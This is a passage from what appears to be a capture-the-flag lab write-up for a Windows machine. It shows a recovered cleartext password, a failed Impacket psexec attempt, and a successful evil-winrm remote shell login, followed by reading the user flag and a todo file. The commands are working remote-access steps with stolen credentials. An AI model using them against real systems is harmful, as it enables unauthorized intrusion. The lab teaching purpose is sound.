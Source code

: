 
Now we found additional credential.
{% highlight shell %}
chase:Q4)sJu\Y8qz*A3?d
{% endhighlight %}

Still we can not use Psexec, but this time we can login via WinRM.<br>
This time, "<a href="https://github.com/Hackplayers/evil-winrm">evil-winrm"</a>" was used for the user shell as "Chase".
{% highlight shell %}
root@kali:~# python impacket/examples/psexec.py 'chase:Q4)sJu\Y8qz*A3?d@10.10.10.149'
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.149.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.

root@kali:~#
{% endhighlight %}
{% highlight shell %}
root@kali:~# gem install evil-winrm

root@kali:~# evil-winrm -u Chase -p "Q4)sJu\Y8qz*A3?d" -i 10.10.10.149

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase

*Evil-WinRM* PS C:\Users\Chase\Documents>
{% endhighlight %}

user.txt is in a directory "C:\Users\Chase\Desktop"
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
a127daef77ab6d9d92008653295f59c4

*Evil-WinRM* PS C:\Users\Chase\Desktop>
{% endhighlight %}

### 3. Getting Root

In the directory "C:\Users\Chase\Desktop", we have another text file "todo.txt".
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----        4/22/2019   9:08 AM            121 todo.txt                                                                                                                                                                                                
-a----        4/22/2019   9:07 AM             32 user.txt                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\Chase\Desktop>
{% endhighlight %}
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.

*Evil-WinRM* PS C:\Users\Chase\Desktop>
{% endhighlight %}
